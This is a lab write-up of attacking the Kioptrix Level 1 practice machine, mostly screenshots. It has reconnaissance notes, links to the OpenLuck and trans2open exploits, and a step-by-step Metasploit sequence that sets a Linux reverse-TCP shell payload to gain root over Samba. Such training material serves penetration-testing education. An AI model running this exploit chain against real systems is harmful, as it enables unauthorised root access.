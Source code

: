 IP - 192.168.133.128

---

NOTES:

![](attachment/1ce01805b1f8f9bdb57874acbb181943.png)

80/443 - Potentially vulnerable to OpenLuck([https://www.exploit-db.com/exploits/764](https://www.exploit-db.com/exploits/764)),[https://github.com/heltonWernik/OpenLuck](https://github.com/heltonWernik/OpenLuck)

  

Potentially vulnerable totrans2open([https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/)),[https://www.exploit-db.com/exploits/16861](https://www.exploit-db.com/exploits/16861)

---

---

---

1 - arp scan detected ip for the kioptrx machine:

![](attachment/2ef74188dd39d0e59f0734d3506f6d9f.png)

2 - nmap scan for the Kioptrx machine Level 1:

![](attachment/b5c3694321e31535e0e0287ab010c816.png)

---

**Dirbuster is a tool that can discover directories available on a web server.**

![](attachment/c1ddb9d6197c02dcb9853ea9883256db.png)

**Nikto targets HTTP:**

![](attachment/89be4567493d3ba3f3d73d89f5599b54.png)

---

First Metasploit:

![](attachment/de701ad8e8cfcc17601048f99f12915d.png)

ssh:

![](attachment/ff5dd8b2233afafa16085eb139187dbd.png)

---

![](attachment/fb430ba5ed1972179adcb5a8a7c14ffa.png)

![](attachment/31a2b4a8c04f751fc2bac46e253e8f45.png)

---

Gaining root with Metasploit:

1 - _search trans2open_

![](attachment/4851bc938f90859ede001f87933bb5d1.png)

2 - _use exploit/linux/samba/trans2open_

![](attachment/8b268854c88b341f9a7edf720317f817.png)

3 - _set RHOST192.168.1.14_

4 - _set payload linux/x86/shell_reverse_tcp_

5 - _set lhost 192.168.1.15_

6 - **_exploit_**

![](attachment/b5bf0c7e6b54901e5f0a7de75359dc0e.png)

---

Gaining root manually:

1 - Downloaded OpenFuck:

![](attachment/cc0951d4546d26728272a2dbb2a3d784.png)

2 - followed the installation demo

3 - **gained access**

![](attachment/c67b8e052f35f99ccc203f1768dff87f.png)
